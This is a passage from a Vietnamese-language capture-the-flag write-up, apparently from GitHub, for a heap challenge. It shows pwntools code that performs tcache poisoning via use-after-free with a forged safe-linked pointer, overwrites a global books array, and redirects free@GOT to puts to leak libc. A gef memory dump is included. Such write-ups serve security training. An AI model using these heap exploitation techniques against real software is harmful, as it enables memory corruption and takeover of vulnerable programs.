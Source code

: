 - Vậy giờ ta có thể overwrite fw_pointer của chunk 3 sau khi free(UAF)

```python
throw(4)
throw(3)
throw(2)
write(2, b"E"*0x20) #de malloc cap phat 0x41byte

fake_chunk = p64(0) + p64(0x41)  # prev_size, size chunk 3
secret_msg = 0x004040c0
fake_chunk += (p64(secret_msg ^ (heap_addr >> 12)) + #fw_pointer
    p64(0x0))  # next = secret_msg
# fake-chunk replaces chunk C's metadata & next ptr
edit(2, b"E"*0x10 + fake_chunk)
```

- Khi này trong bin sẽ như này `tcahe bin 0x40: chunk3 <== chunk4`, ta sửa fw_pointer của chunk 3, chunk 4 sẽ lấy fw_ptr đó làm địa chỉ nên, trong bin ta sẽ thấy như này
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/feb9b9e6-25fd-41a3-a5d2-d6e87c90471d)

- Khi ta gọi lại 2 chunk 3 4 ra thì chunk 4 đang trỏ địa chỉ của `secret_msg`
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/7519556d-53fa-4cd0-92f4-c9db0e27ebe0)
- Bây giờ ta sẽ set `secret_msg = 0`, author_sign như cũ, size book1 là 0x1000 và địa chỉ book1 là `secret_msg`

```python
fake_book = p64(0x1000) + p64(secret_msg)  # size, ptr
payload = (p64(0) * 2 +  # secret_msg
           b"by " + signature + 7 * b"\x00" +  # author_signature
           fake_book)  # books[0]
edit(4, payload)
```
### Leak libc
- Khi này book 1 là địa chỉ của msg rồi nên bây giờ ta sẽ ghi đè book 2 giữ địa chỉ của free.got, để khi rewrite book 2 thì nó sẽ nhảy vào free.got để ta có thể sửa free.plt thành puts.plt

```python
fake_book2 = p64(0x8) + p64(exe.got["free"])
bss_payload = payload + fake_book2
# writes to secret_msg. book[1] now has ptr=got['free'] & size=0x8
edit(1, bss_payload)

edit(2, p64(exe.plt["puts"]))  # overwrites free with puts
```

```
gef➤  x/30xg 0x00000000004040c0
0x4040c0 <secret_msg>:  0x0000000000000000      0x0000000000000000
0x4040d0 <author_signature>:    0x6161616161207962      0x0000000000000041
0x4040e0 <books>:       0x0000000000001000      0x00000000004040c0      #book1
0x4040f0 <books+16>:    0x0000000000000008      0x0000000000404018      #book2
0x404100 <books+32>:    0x6161616161207962      0x0000000000000041
0x404110 <books+48>:    0x0000000000000030      0x00000000004040c0
0x404120 <books+64>:    0x0000000000000000      0x0000000000000000
```
